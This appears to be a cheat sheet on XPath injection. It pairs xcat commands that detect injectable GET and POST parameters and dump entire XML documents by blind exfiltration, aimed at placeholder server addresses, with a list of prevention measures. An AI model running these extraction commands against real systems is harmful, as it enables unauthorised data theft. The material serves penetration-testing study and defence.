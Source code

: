# XPath Injection – Prevention & Tools

## Tools: xcat quick reference

Install:

```bash
pip3 install cython
pip3 install xcat
```

General help:

```bash
xcat --help
# commands: detect, injections, ip, run, shell
```

### Detect classic data exfiltration (GET)

Vulnerable param is `q`, but app also needs `f`. True when response does NOT contain "No Result" (negated true-string with `!`).

```bash
xcat detect "http://<SERVER_IP>:<PORT>/index.php" q "q=BAR" "f=fullstreetname" \
  --true-string='!No Result'
```

Also test `f` as injectable:

```bash
xcat detect "http://<SERVER_IP>:<PORT>/index.php" f "q=BAR" "f=fullstreetname" \
  --true-string='!No Result'
```

Exfiltrate whole XML (can be slow for big docs):

```bash
xcat run "http://<SERVER_IP>:<PORT>/index.php" q "q=BAR" "f=fullstreetname" \
  --true-string='!No Result'
```

### Blind injection (POST form)

Injection point: `username` (POST). Positive text contains "successfully".

```bash
xcat detect "http://<SERVER_IP>:<PORT>/index.php" username "username=admin" \
  -m POST --encode FORM --true-string=successfully
```

Dump via blind exfiltration (can take time):

```bash
xcat run "http://<SERVER_IP>:<PORT>/index.php" username "username=admin" \
  -m POST --encode FORM --true-string=successfully
```

## Prevention

Prefer allow-listing and strict parsing over ad-hoc escaping. Treat any input interpolated into XPath as untrusted.

- Input allow-listing:
  - Permit only safe characters (e.g., `^[A-Za-z0-9 _-]+$`) for fields used inside XPath.
- Type/format validation:
  - Enforce numeric types where expected (reject non-digits), validate lengths/ranges.
- Semantic constraints:
  - For selector-like params (e.g., `f`), enforce fixed enum: `{fullstreetname, streetname}`.
- Avoid string concatenation:
  - Use library functions that build XPath safely or pre-map user choices to constant query fragments.
- Escaping (fallback when unavoidable):
  - Escape quotes `'"`, brackets `[]()`, wildcard `*`, slash `/`, at `@`, equals `=`. Avoid double-escaping.
- Defense in depth:
  - Centralize validation, log rejects, rate-limit suspicious activity, add WAF rules for XPath metacharacters.

> Note: Unlike SQL, prepared statements for XPath are not universally available; explicit validation and controlled composition are key.
